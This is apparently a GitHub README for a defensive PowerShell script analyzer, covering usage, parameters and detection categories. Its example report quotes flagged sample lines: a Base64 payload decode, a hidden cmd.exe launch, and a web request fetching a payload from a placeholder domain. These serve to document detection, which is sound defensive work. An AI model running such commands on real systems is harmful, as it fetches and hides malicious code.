 # DataCats-PowerShell-Analyzer
🐾 PowerShell Incident Response Analyzer - DataCats™ Edition

A security tool designed to analyze PowerShell scripts for potentially malicious elements, suspicious patterns, and security vulnerabilities.

## Overview

DataCats PowerShell Analyzer is a specialized security tool that helps security professionals, system administrators, and developers identify potentially harmful code in PowerShell scripts. By scanning for known malicious patterns, obfuscation techniques, and security vulnerabilities, this tool provides an additional layer of defense against PowerShell-based attacks.

## Features

- **Static Analysis**: Examines PowerShell scripts without execution to identify suspicious code patterns
- **Obfuscation Detection**: Identifies common obfuscation techniques used to hide malicious code
- **Known Exploit Detection**: Checks for patterns associated with common PowerShell-based exploits
- **Command & Function Analysis**: Analyzes commands and functions for potentially dangerous operations
- **Report Generation**: Creates detailed reports of findings with severity levels and explanations
- **Batch Processing**: Ability to scan multiple files or entire directories at once

## Installation

```
git clone https://github.com/datacats-v3xx/DataCats-PowerShell-Analyzer.git
cd DataCats-PowerShell-Analyzer
# Additional installation steps if required
```

## Requirements

- PowerShell 5.1 or higher
- .NET Framework 4.7.2 or higher
- Windows 7/Server 2012 R2 or newer operating systems

## Usage

### Basic Usage

```powershell
.\Analyze-Script.ps1 -Path "C:\path\to\script.ps1"
```

### Advanced Options

```powershell
.\Analyze-Script.ps1 -Path "C:\Scripts" -Recursive -OutputFormat JSON -Severity High -ExcludeThirdParty
```

### Parameters

- `-Path`: Path to a PowerShell script or directory containing scripts
- `-Recursive`: Process subdirectories when scanning a directory
- `-OutputFormat`: Format for results (Text, CSV, JSON, HTML)
- `-OutputPath`: Path where the report will be saved
- `-Severity`: Filter results by minimum severity (Low, Medium, High, Critical)
- `-ExcludeThirdParty`: Skip analysis of recognized third-party modules

## Detection Capabilities

The analyzer can identify various suspicious patterns, including:

- Encoded commands (Base64, compressed scripts)
- Web requests to suspicious domains
- Unusual system modifications
- Privilege escalation attempts
- Credential harvesting techniques
- Common PowerShell attack frameworks patterns
- Suspicious process creation
- Registry modifications
- Evasion techniques

## Example Report

```
Analysis Report for: suspicious_script.ps1
Timestamp: 2025-02-28 14:30:25

CRITICAL: Base64 encoded command detected at line 15
    Details: Possible attempt to hide malicious payload
    Code: [System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String("..."))
    
HIGH: Unusual process creation detected at line 23
    Details: Script appears to create process with hidden window
    Code: Start-Process -WindowStyle Hidden -FilePath cmd.exe -ArgumentList "/c..."
    
MEDIUM: Web request to uncommon domain at line 7
    Details: Connection to potentially suspicious endpoint
    Code: Invoke-WebRequest -Uri "http://unusual-domain.com/payload"
```

## Contributing

Contributions are welcome! Please feel free to submit a Pull Request.

1. Fork the repository
2. Create your feature branch (`git checkout -b feature/amazing-feature`)
3. Commit your changes (`git commit -m 'Add some amazing feature'`)
4. Push to the branch (`git push origin feature/amazing-feature`)
5. Open a Pull Request

## License

This project is licensed under the MIT License - see the LICENSE file for details.

## Disclaimer

This tool is meant for defensive security purposes only. The creators are not responsible for any misuse or damage caused by this tool. Always ensure you have proper authorization before analyzing any PowerShell scripts.

## Contact

- Project Link: [https://github.com/datacats-v3xx/DataCats-PowerShell-Analyzer](https://github.com/datacats-v3xx/DataCats-PowerShell-Analyzer)
- Creator: DataCats (@datacats-v3xx)
